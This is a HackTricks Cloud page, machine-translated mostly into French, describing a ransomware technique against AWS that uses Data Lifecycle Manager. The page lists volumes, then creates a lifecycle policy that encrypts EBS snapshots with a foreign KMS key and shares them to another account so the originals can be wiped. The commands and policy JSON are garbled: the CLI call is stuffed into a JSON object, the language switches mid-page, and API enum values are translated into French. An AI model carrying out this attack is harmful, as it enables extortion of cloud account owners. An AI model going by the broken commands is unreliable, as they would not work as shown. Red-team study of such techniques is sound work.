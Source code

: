 # AWS - Gestionnaire de cycle de vie des données

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Gestionnaire de cycle de vie des données (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Une attaque par ransomware peut être exécutée en chiffrant autant de volumes EBS que possible, puis en effaçant les instances EC2 actuelles, les volumes EBS et les instantanés. Pour automatiser cette activité malveillante, on peut utiliser Amazon DLM, chiffrer les instantanés avec une clé KMS d'un autre compte AWS et transférer les instantanés chiffrés vers un compte différent. Alternativement, ils pourraient transférer des instantanés sans chiffrement vers un compte qu'ils gèrent, puis les chiffrer là-bas. Bien qu'il ne soit pas directement possible de chiffrer directement les volumes EBS ou les instantanés existants, il est possible de le faire en créant un nouveau volume ou instantané.

Tout d'abord, on utilisera une commande pour recueillir des informations sur les volumes, telles que l'ID de l'instance, l'ID du volume, l'état de chiffrement, l'état de l'attachement et le type de volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy": "--description \"Ma première politique\" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "GESTION_DES_SNAPSHOTS_EBS",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "CléExemple",
"Value": "ValeurExemple"
}
],
"Schedules": [
{
"Name": "SnapshotsQuotidiens",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "CréateurDuSnapshot",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CentreDeCoût",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HEURES",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HEURES"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "JOURS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "JOURS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
